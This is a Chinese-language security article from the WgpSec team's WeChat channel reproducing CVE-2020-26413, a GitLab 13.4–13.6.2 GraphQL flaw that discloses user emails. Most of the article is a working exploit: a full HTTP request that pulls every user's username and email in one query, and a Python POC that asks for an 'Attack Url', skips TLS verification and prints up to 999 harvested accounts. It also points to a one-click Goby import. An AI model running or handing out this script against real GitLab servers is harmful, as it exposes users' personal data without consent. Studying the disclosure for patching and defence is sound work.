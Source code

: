 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3cT8d9I7qru2tsURqUDusw)

**点击蓝字**

![图片](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

**关注我们**

  

  

**_声明  
_**

本文作者：PeiQi  
本文字数：1500

阅读时长：5min

附件/链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

  

**_前言_**

  

一、

**_漏洞描述_**

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

  

二、

**_漏洞影响_**

GitLab 13.4 - 13.6.2

  

三、

**_漏洞复现_**

看到了CNVD收录了一个漏洞 原编号为  CVE-2020-26413

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

发现最近 Hackone公开了 漏洞报告  

地址为 ：https://gitlab.com/gitlab-org/gitlab/-/issues/244275  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在Graphql官网查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```
`POST /api/graphql HTTP/1.1``Host: xxx.xxx.xxx.xxx``Content-Length: 212``Content-Type: application/json``{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功返回数据，造成 Gitlab的用户邮箱信息泄露

  

四、

**_漏洞POC_**

  

```
`import requests``import sys``import random``import re``import json``from requests.packages.urllib3.exceptions import InsecureRequestWarning``def title():` `print('+--------------WgpSec--Team----------------')` `print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')` `print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')` `print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')` `print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')` `print('+------------------------------------------')``def POC_1(target_url):` `vuln_url = target_url + "/api/graphql"` `user_number = 0` `headers = {` `"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `"Content-Type": "application/json",` `}` `try:` `data = """` `{"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}` `"""` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)` `if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:` `print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))` `for i in range(0,999):` `try:` `username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]` `email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]` `user_number = user_number + 1` `print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))` `except:` `print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))` `sys.exit(0)` `else:` `print("\033[31m[x] 不存在漏洞 \033[0m")` `sys.exit(0)` `except Exception as e:` `print("\033[31m[x] 请求失败 \033[0m", e)``if __name__ == '__main__':` `title()` `target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))` `POC_1(target_url)`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413``EXP放在文库中的 Goby & POC 目录中可一键导入Goby扫描` 
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

  

**_作者_**

  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

PeiQi

感谢观看啦~

  

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)